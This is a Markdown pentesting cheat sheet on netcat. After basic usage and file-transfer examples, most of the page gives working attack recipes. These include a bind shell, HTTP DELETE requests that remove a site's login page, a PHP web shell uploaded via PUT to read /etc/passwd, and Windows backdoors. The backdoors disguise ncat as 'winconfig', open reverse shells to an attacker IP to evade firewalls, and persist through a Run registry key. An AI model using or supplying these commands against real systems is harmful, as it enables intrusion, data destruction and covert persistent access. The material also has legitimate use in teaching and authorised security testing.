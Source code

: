 ```yaml
---
title: netcat
author: amandaguglieri
draft: false
TableOfContents: true
tag: http
---
```


# netcat

## Installation

Preinstalled in kali. Netcat (often abbreviated to nc) is a computer networking utility for reading from and writing to network connections using TCP or UDP.

For windows: [https://nmap.org/ncat/](https://nmap.org/ncat/).

For linux: 

```bash
sudo apt install ncat
```


## Usage

It’s used for HTTP

```bash
nc <IP> <port> -flags
```

### Fingerprinting with netcat

```bash
nc  <IP> 80
HEAD / HTTP/1.0     
# And hit RETURN twice
```

## Netcat commands


### As a server

```bash
nc -lvp 8888
#-p: specify a port
#-l: to listening
#-v: verbosity
#-u: enforces udp connection
#-e: executes the given command
```

### As a client

```bash
nc -v <ip> <port>
```


## Transfer data

On the server side:

```bash
#data will be printed on screen
nc -lvp <port>  
```

On the client side:

```bash
echo “hello” | nc -v <ip> <port>
```



## Transfer data and save it in a file

On the server side: 

```bash
# Data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
echo “hello” | nc -v <ip> <port>
```

## Transfer file and save it 

On the server side: 

```bash
# Received data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
cat tobesentfiel.txt | nc -v <ip> <port>
```

## Netcat shell

On the server side:

```bash
nc -lvp <port> -e /bin/bash
```

On the client side:

```bash
nc -v <ip> <port>
```


## Some enumeration techniques for HTTP verbs

```bash
# Send a OPTIONS message with netcat
nc victim.target 80
OPTIONS / HTTP/1.0

```



## Some exploitation techniques for HTTP verbs


### DELETE attack


```bash
# General syntax for removing a resource from server using netcat
nc victim.site 80
DELETE /path/to/resource.txt HTTP/1.0


# Example for removing the login page of a site
nc victim.site 80
DELETE /login.php HTTP/1.0

```

### PUT attack: getting a shell

```bash
# Save for instance a php basic shell in a file (shell.php):

<?php 
if (isset($_GET[‘cmd’]))
{
	$cmd = $_GET[‘cmd’];
	echo ‘<pre>’;
	$result = shell_exec($cmd);
	echo $result;
	echo ‘</pre>’;
?>


# Count the size of the file
wc -m shell.php

# Send with netcat the HTTP verb message
nc victim.site 80
PUT /shell.php HTTP/1.0
Conten-type: text/html
Content-length: [number you got with wc -m payload]
 

# Run the exploit by typing in the browser:
http://victim.site/shell.php?cmd=cat+/etc/passwd
```

## Backdoors with netcat

### The attacker initiates the connection

**In the victim machine**: If windows, get the ncat.exe executable file, rename it to something else such as winconfig and we write in command line:

```
wincofig -l -p <port> -e cmd.exe
# Example: wincofig -l -p 5555 -e cmd.exe
```

**In the attacker machine**:

```
ncat <victim IP address> <port specified>
# Example: ncat 192.168.0.40 5555
```

### The victim initiates the connection

Great to avoid firewalls!!!

**In the victim machine**: If windows, get the ncat.exe executable file, rename it to something else such as winconfig and we write in command line:

```
winconfig -e cmd.exe <attacker IP> <port>
# Example: winconfig -e cmd.exe 192.168.1.40 5555
```
**In the attacker machine**:

```
ncat -l -p <port> -v
# Example: ncat -l -p 5555 -v
```

## Creating a registry in regedit

- In regedit, go to Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
- Right-Button > New > String value
- We name it exactly like the ncat.exe file (if we renamed it to winconfig, then we call this registry winconfig>
- We edit the registry and we add the path to the executable file and some commands  in the Value data:

```
“C:\Windows/System32\winconfig.exe <attacker IP> <port> -e cmd.exe”
# For instance: “C:\Windows/System32\winconfig.exe 192.168.1.50 5540 -e cmd.exe”
```
 
